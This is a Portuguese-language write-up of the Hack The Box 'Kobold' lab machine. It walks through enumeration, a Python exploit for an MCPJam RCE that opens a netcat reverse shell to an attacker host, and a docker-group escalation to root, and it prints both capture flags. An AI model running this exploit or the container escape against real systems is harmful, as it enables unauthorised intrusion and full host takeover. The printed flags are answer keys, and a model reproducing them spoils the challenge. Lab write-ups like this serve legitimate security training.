








# Hack The Box — Kobold


---

# Informações da Máquina

| Nome   | Dificuldade | Plataforma   | OS    |
| ------ | ----------- | ------------ | ----- |
| Kobold | Easy        | Hack The Box | Linux |

---

# Superfície de ataque

```
1. Enumeração de serviços (Nmap)
2. Descoberta de subdomínios (Gobuster)
3. Identificação de aplicação MCPJam
4. Exploração de RCE (CVE-2026-23744)
5. Acesso inicial como usuário ben
6. Escalação de privilégio via Docker group
```

---

# Reconhecimento

A enumeração inicial foi realizada com Nmap:

```bash
nmap -sC -sV -A -T4 10.129.23.43
```



### Descobertas

| Porta | Serviço | Observações            |
| ----- | ------- | ---------------------- |
| 22    | SSH     | OpenSSH 9.6p1          |
| 80    | HTTP    | Redireciona para HTTPS |
| 443   | HTTPS   | nginx + virtual hosts  |

---

# Enumeração Web

A aplicação principal redirecionava para HTTPS.
Foi realizado fuzzing de subdomínios:

```bash
gobuster vhost -u https://kobold.htb \
-w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt \
-k --append-domain
```



### Subdomínios encontrados:

* `mcp.kobold.htb`
* `bin.kobold.htb`

---

## Análise dos subdomínios

### MCP (`mcp.kobold.htb`)

Aplicação MCPJam:



---

### PrivateBin (`bin.kobold.htb`)

Aplicação PrivateBin:



Serviço de paste criptografado (não explorável diretamente).

---

# Exploração

Foi identificada a vulnerabilidade:

> **CVE-2026-23744 — MCPJam RCE**

Essa vulnerabilidade permite execução de comandos arbitrários através do endpoint:

```text
/api/mcp/connect
```

---

## Exploit utilizado

```python
import requests
import json

target = "https://TARGET"
ip = "ATTACKER_IP"
port = "ATTACKER_PORT"

url = f'{target}/api/mcp/connect'

data = {
    "serverConfig": {
        "command": "busybox",
        "args": [
            "nc",
            f"{ip}",
            f"{port}",
            "-e",
            "/bin/bash"
        ],
        "env": {}
    },
    "serverId": "213j1l3jkljkl3j"
}

response = requests.post(url, json=data, verify=False)

print(response.status_code)
print(response.text)
```

---

# Acesso Inicial

Listener:

```bash
nc -lvnp 1337
```

Execução do exploit → reverse shell obtida.



```bash
whoami
ben
```

---

# Flag de Usuário

```bash
cat /home/ben/user.txt
```



```
0616ed84248bb9acec928a2100dd5593
```

---

# Escalação de Privilégio

Enumeração inicial não revelou vetores diretos:

```bash
sudo -l
find / -perm -4000
getcap -r /
```

---

## Descoberta importante

O acesso inicial foi obtido via processo que não herdava todos os grupos.

Executando:

```bash
sg docker -c "id"
```

Resultado:

```bash
uid=1001(ben) gid=111(docker) groups=111(docker),37(operator),1001(ben)
```

---

## Vulnerabilidade

> Usuário com acesso ao grupo `docker`

### Impacto:

* Execução de containers
* Montagem do filesystem host
* Acesso root completo

---

# Explorando a Escalação de Privilégio

Listando imagens disponíveis:

```bash
sg docker -c "docker images"
```

Imagem encontrada:

```
mysql
```

---

## Exploit

```bash
sg docker -c "docker run --rm -v /:/mnt -it mysql chroot /mnt sh"
```

---

# Root shell obtida



```bash
id
uid=0(root) gid=0(root)
```

---

# Flag Root

```bash
cat /root/root.txt
```



```
c264bbd33806699869655a280c2e7a75
```

---

# Vulnerabilidades Identificadas

### CVE-2026-23744 — MCPJam RCE

**Descrição:**
Permite execução de comandos arbitrários via configuração manipulada no endpoint `/api/mcp/connect`.

**Impacto:**

* Remote Code Execution
* Shell remota

---

### Docker Group Privilege Escalation

**Descrição:**
Usuários no grupo docker podem executar containers com acesso ao filesystem do host.

**Impacto:**

* Escalação para root
* Controle total do sistema

---

# Ferramentas Utilizadas

* Nmap
* Gobuster
* ffuf
* Netcat
* Burp Suite
* Python (requests)

---

# Principais Aprendizados

* Enumeração de subdomínios é essencial
* APIs podem esconder RCE críticas
* Nem toda shell herda permissões completas
* Docker group = root
* Sempre verificar grupos com `id` e `sg`

---

# Autor

https://github.com/ninjaa-exe
